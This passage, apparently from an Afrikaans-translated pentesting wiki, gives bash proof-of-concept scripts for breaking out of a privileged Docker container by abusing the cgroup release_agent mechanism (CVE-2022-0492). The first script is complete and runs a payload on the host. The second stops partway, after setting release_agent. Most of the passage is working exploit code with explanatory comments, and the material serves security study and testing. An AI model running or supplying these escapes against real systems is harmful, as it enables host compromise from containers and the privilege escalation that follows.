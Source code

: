 {% code title="Aanvanklike PoC" %}
```bash
# spawn a new container to exploit via:
# docker run --rm -it --privileged ubuntu bash

# Finds + enables a cgroup release_agent
# Looks for something like: /sys/fs/cgroup/*/release_agent
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
# If "d" is empty, this won't work, you need to use the next PoC

# Enables notify_on_release in the cgroup
mkdir -p $d/w;
echo 1 >$d/w/notify_on_release
# If you have a "Read-only file system" error, you need to use the next PoC

# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
t=`sed -n 's/overlay \/ .*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /path/payload
touch /o; echo $t/c > $d/release_agent

# Creates a payload
echo "#!/bin/sh" > /c
echo "ps > $t/o" >> /c
chmod +x /c

# Triggers the cgroup via empty cgroup.procs
sh -c "echo 0 > $d/w/cgroup.procs"; sleep 1

# Reads the output
cat /o
```
{% endcode %}

#### Bevoorregte Ontsnapping deur die skepping van release\_agent ([cve-2022-0492](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)) - PoC2

{% code title="Tweede PoC" %}
```bash
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

# Mounts the RDMA cgroup controller and create a child cgroup
# This technique should work with the majority of cgroup controllers
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the RDMA cgroup controller, try change rdma to memory to fix it
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
# If mount gives an error, this won't work, you need to use the first PoC

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release

# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#For a normal PoC =================
```